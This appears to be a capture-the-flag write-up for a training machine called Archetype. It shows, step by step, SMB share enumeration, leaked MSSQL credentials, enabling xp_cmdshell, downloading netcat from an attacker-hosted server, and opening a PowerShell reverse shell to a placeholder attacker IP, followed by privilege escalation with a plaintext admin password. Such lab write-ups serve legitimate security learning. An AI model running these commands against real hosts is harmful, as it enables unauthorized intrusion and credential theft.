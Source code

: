 # Archetype
### Summary
Host running an SMB and a Microsoft SQL server has passwordless access to an SMB share containing a username and password to the SQL server. This SQL user can enable xp_cmdshell and run powershell commands. The powershell history contains a plain-text administrator password.

---

### Scanning

	$ nmap -sV [IP]
	PORT     STATE SERVICE      VERSION 
	135/tcp  open  msrpc        Microsoft Windows RPC
	139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
	1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
	Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

microsoft-ds: SMB server

### SMB
	$ smbclient -L [IP]
	ADMIN$         Disk      Remote Admin
	backups			Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC

`IPC$` and `backups` are available with blank passwords. \
`backups` contains `prod.dtsConfig` which is a config file for Microsoft SQL.

It contains a username and a password: `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`


### MSSQL
The Microsoft SQL server can be accessed with this log-in information. \
Using the [impacket mssql client](https://github.com/fortra/impacket): 

	impacket-mssqlclient -windows-auth ARCHETYPE/sql_svc@[IP]

xp_cmdshell is disabled on the MSSQL server but the error message says it can be enabled by an administrator. 

	SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
shows that we have the sysadmin role and and can enable xp_cmdshell:

	SQL> EXECUTE sp_configure 'show advanced options', 1
	SQL> RECONFIGURE
	SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
	SQL> RECONFIGURE

also powershell commands with: xp_cmdshell "powershell -c [COMMAND]"



### Reverse shell
We can get a reverse shell with with [netcat](https://github.com/int0x33/nc.exe).

nc64.exe can be uploaded with a simple http server on the attacker's machine:

	$ mkdir HTTP; cp nc64.exe HTTP
	$ sudo python3 -m http.server -d HTTP 80
	$ sudo nc -lvv -p 443 

On the target machine:

	SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc; wget -outfile nc64.exe [ATTACKER IP]/nc64.exe"
	SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc; .\nc64.exe -e powershell.exe [ATTACKER IP] 443"


In remote shell:

	PS> cat Desktop/user.txt
	[user flag]


Checking the powershell history:

	PS> cat (Get-PSReadlineOption).HistorySavePath
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit

### Logging in with, activating the same reverse shell
Logging in with the administrator password found in powershell history and activating the same reverse shell:

	impacket-psexec administrator@[IP]
	cmd> powershell -c cd C:\Users\sql_svc; ./nc64.exe -e powershell.exe [ATTACKER IP] 433
Root flag:

	PS> cat C:\Users\Administrator\Desktop\root.txt
